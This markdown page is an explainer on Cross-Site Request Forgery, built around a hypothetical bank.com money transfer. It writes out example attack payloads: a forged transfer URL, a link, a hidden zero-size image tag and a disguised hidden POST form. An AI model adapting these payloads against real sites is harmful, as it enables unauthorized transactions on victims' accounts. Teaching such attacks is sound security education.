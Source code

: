# Cross-Site Request Forgery (CSRF)

A Cross-Site Request Forgery is an attack that forces an end user to execute unwanted actions on a web application in which they're logged in.
This type of attacks targets state-changing requests, not theft of data.
For example, a CSRF attack can force the user to perform a state change request like transferring funds, changing email and password, etc...

This type of attack can be implemented inside a website using an IMG or IFRAME tag in a field that accepts HTML.

Examples:

In the scenario of a user wanting to transfer $100 to another user on bank.com, an attacker wants to trick the user to transfer that money to them instead.

#### GET request:

If the web application is designed to use GET requests to transfer parameters and execute actions, the money transfer operation might look like this:

```
GET http://www.bank.com/transfer?acct=ROB&amount=100 HTTP/1.1
```

If the attacker wants to exploit this vulnerability, they can manipulate the URL so it now is:

```
http://www.bank.com/transfer?acct=MARIE&amount=10000
```

Now the attacker has to trick the user to executing this request by sending an unsolicited email with a link like:

```html
<a href="http://www.bank.com/transfer?acct=MARIE&amount=10000">Click!</a>
```

OR by adding a fake 0x0 image.

```html
<img src="http://www.bank.com/transfer?acct=MARIE&amount=10000" width="0" height="0" border="0">
```

If the image is included in an email, the user would not see anything but the browser will still execute the script.

#### POST request:

If the website uses POST, the request would look like this:

```
POST http://bank.com/transfer.do HTTP/1.1

acct=ROB&amount=100
```

Such a request can be delivered using a form:

```html
<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="MARIE"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
```
